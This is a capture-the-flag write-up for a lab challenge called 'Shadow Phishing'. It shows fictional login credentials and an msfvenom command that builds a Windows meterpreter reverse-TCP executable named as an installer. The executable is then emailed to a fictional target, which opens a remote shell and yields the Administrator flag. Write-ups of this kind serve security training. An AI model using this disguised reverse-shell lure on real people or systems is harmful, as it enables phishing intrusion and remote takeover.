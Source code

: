 # Shadow Phishing 
## Challenge 
We gained access to the email account of ShadowByte, one of Cipher's trusted operatives. 
This breakthrough will help bring Cipher's location closer to light and foil his plans for the apocalyptic cyber weapon. 
The clock is ticking, though too much time and Cipher will know something is wrong and again disappear into the depths of the darknet. The race against time goes on. 

__Username:__ shadowbyte@darknetmail.corp

__Password:__ ShadowIsTheBest

## Solution
When accessing the ShadowByte email we see this email from Cipher:

![image](https://github.com/user-attachments/assets/3ec7adcc-512f-4f04-b05f-43cdeebb20db)

Cipher told ShadowByte that he needs a exe! Like Ghost Phishing challenge, we could create a reverse TCP shell windows executable. For this we used metasploit for a faster and easy way to create this.

We used this command to generate our executable named silentEdgeInstaller.exe to match what Cipher wanted:

```bash
sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.23.56.134 LPORT=8080 -f exe -o /home/thm/silentEdgeInstaller.exe
```
After we went to the msfconsole and created our payload and started listenning for incoming connections.
![image](https://github.com/user-attachments/assets/4dc51052-19ab-43cd-b06e-9f1ee0cd2ce4)
![image](https://github.com/user-attachments/assets/7477ad2f-1bb9-42c2-a13b-b27e16c2afde)

After this we sent the executable to Cipher, replying to the email he sent. He didnt responded but we got the connection.

![image](https://github.com/user-attachments/assets/5b418768-d8c7-4390-bacc-81cf93496857)

They want the Administrator flag. So we went to the Administrator desktop and found the flag!

![Untitled design](https://github.com/user-attachments/assets/2ea79b8d-509a-4db2-88af-c6d8b2c938af)
